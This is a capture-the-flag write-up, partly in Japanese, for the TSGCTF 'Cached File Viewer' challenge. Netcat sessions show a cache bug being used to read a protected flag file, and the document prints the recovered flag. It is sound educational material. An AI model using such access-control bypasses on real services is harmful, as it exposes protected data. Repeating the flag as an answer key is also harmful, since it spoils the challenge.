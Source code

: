 # Cached File Viewer:misc:113pts
I implemented a simple file viewer!  

```
> ls ~
99-bottles-of-bear.txt  chal  diary.txt  flag  recipe.txt  start.sh
```

`nc 34.146.186.1 21001`  

[file_viewer.tar.gz](file_viewer.tar.gz)  

# Solution
ホームのファイル一覧(`ls ~`の結果)、ソース、接続先が渡される。  
接続するとファイルを読み込むサービスのようだ。  
```bash
$ nc 34.146.186.1 21001
1. load_file
2. read
3. bye
choice > 1
index > 0
filename > diary.txt
Read 262 bytes.
1. load_file
2. read
3. bye
choice > 2
index > 0
content: - 202X/12/13
I set the password for my bank account, but it's a random string, so I'm afraid I'll forget it...
Oh, I know! I'll save it in the `flag` file just in case I forget it!
- 202X/12/14
This is just flavor text and is not related to solving the problem!

1. load_file
2. read
3. bye
choice > 1
index > 0
filename > flag
Read 22 bytes.
content: - 202X/12/13
I set the password for my bank account, but it's a random string, so I'm afraid I'll forget it...
Oh, I know! I'll save it in the `flag` file just in case I forget it!
- 202X/12/14
This is just flavor text and is not related to solving the problem!

Overwrite loaded file? (y/n) > y
1. load_file
2. read
3. bye
choice > 2
index > 0
content: **redacted**
```
もちろん`flag`は読めないらしい。  
問題名よりキャッシュのバグで二度読み取ると何らかのバイパスが生じると考え、ブラックボックスで試す。  
```bash
$ nc 34.146.186.1 21001
1. load_file
2. read
3. bye
choice > 1
index > 0
filename > flag
Read 22 bytes.
1. load_file
2. read
3. bye
choice > 1
index > 1
filename > flag
1. load_file
2. read
3. bye
choice > 2
index > 1
content: TSGCTF{!7esuVVz2n@!Fm}
1. load_file
2. read
3. bye
```
flagが得られた。  

## TSGCTF{!7esuVVz2n@!Fm}